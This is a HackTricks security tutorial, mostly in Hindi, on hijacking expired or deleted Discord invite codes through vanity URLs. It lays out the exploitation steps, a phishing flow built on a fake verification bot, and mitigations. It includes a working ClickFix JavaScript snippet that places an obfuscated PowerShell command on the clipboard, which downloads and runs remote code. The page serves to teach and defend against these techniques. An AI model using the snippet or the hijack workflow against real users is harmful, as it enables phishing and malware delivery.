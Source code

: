 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Discord के आमंत्रण प्रणाली की कमजोरी खतरे के तत्वों को समाप्त या हटाए गए आमंत्रण कोड (अस्थायी, स्थायी, या कस्टम वैनिटी) को किसी भी स्तर 3 बूस्टेड सर्वर पर नए वैनिटी लिंक के रूप में दावा करने की अनुमति देती है। सभी कोड को लोअरकेस में सामान्यीकृत करके, हमलावर ज्ञात आमंत्रण कोड को पूर्व-रजिस्टर कर सकते हैं और मूल लिंक समाप्त होने या स्रोत सर्वर के बूस्ट खोने पर चुपचाप ट्रैफ़िक को हाईजैक कर सकते हैं।

## Invite Types and Hijack Risk

| Invite Type           | Hijackable? | Condition / Comments                                                                                       |
|-----------------------|-------------|------------------------------------------------------------------------------------------------------------|
| Temporary Invite Link | ✅          | समाप्ति के बाद, कोड उपलब्ध हो जाता है और इसे बूस्टेड सर्वर द्वारा वैनिटी URL के रूप में फिर से रजिस्टर किया जा सकता है। |
| Permanent Invite Link | ⚠️          | यदि हटाया गया और केवल लोअरकेस अक्षरों और अंकों से बना है, तो कोड फिर से उपलब्ध हो सकता है।        |
| Custom Vanity Link    | ✅          | यदि मूल सर्वर अपना स्तर 3 बूस्ट खो देता है, तो इसका वैनिटी आमंत्रण नए रजिस्ट्रेशन के लिए उपलब्ध हो जाता है।    |

## Exploitation Steps

1. Reconnaissance
- सार्वजनिक स्रोतों (फोरम, सोशल मीडिया, टेलीग्राम चैनल) पर आमंत्रण लिंक की निगरानी करें जो पैटर्न `discord.gg/{code}` या `discord.com/invite/{code}` से मेल खाते हैं।
- रुचि के आमंत्रण कोड (अस्थायी या वैनिटी) एकत्र करें।
2. Pre-registration
- स्तर 3 बूस्ट विशेषाधिकार के साथ एक नया या मौजूदा Discord सर्वर बनाएं या उपयोग करें।
- **Server Settings → Vanity URL** में, लक्षित आमंत्रण कोड को असाइन करने का प्रयास करें। यदि स्वीकार किया गया, तो कोड दुर्भावनापूर्ण सर्वर द्वारा आरक्षित है।
3. Hijack Activation
- अस्थायी आमंत्रण के लिए, मूल आमंत्रण समाप्त होने की प्रतीक्षा करें (या यदि आप स्रोत को नियंत्रित करते हैं तो इसे मैन्युअल रूप से हटा दें)।
- बड़े अक्षरों वाले कोड के लिए, लोअरकेस संस्करण तुरंत दावा किया जा सकता है, हालांकि रीडायरेक्शन केवल समाप्ति के बाद सक्रिय होता है।
4. Silent Redirection
- पुराने लिंक पर जाने वाले उपयोगकर्ताओं को हमलावर-नियंत्रित सर्वर पर बिना किसी रुकावट के भेजा जाता है जब हाईजैक सक्रिय होता है।

## Phishing Flow via Discord Server

1. सर्वर चैनलों को इस तरह से सीमित करें कि केवल **#verify** चैनल दिखाई दे।
2. नए उपयोगकर्ताओं को OAuth2 के माध्यम से सत्यापित करने के लिए प्रेरित करने के लिए एक बॉट (जैसे, **Safeguard#0786**) तैनात करें।
3. बॉट उपयोगकर्ताओं को एक फ़िशिंग साइट (जैसे, `captchaguard.me`) पर रीडायरेक्ट करता है जो CAPTCHA या सत्यापन चरण के रूप में प्रकट होती है।
4. **ClickFix** UX ट्रिक लागू करें:
- एक टूटी हुई CAPTCHA संदेश प्रदर्शित करें।
- उपयोगकर्ताओं को **Win+R** संवाद खोलने, एक प्रीलोडेड PowerShell कमांड पेस्ट करने और Enter दबाने के लिए मार्गदर्शन करें।

### ClickFix Clipboard Injection Example
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
यह दृष्टिकोण सीधे फ़ाइल डाउनलोड से बचता है और उपयोगकर्ता की संदेह को कम करने के लिए परिचित UI तत्वों का लाभ उठाता है।

## Mitigations

- स्थायी आमंत्रण लिंक का उपयोग करें जिसमें कम से कम एक बड़ा अक्षर या गैर-अक्षरांकित चरित्र हो (कभी समाप्त न हों, पुन: उपयोग योग्य न हों)।
- नियमित रूप से आमंत्रण कोड को घुमाएँ और पुराने लिंक को रद्द करें।
- Discord सर्वर बूस्ट स्थिति और वैनिटी URL दावों की निगरानी करें।
- उपयोगकर्ताओं को सर्वर की प्रामाणिकता की पुष्टि करने और क्लिपबोर्ड-पेस्ट किए गए कमांड को निष्पादित करने से बचने के लिए शिक्षित करें।

## References

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}
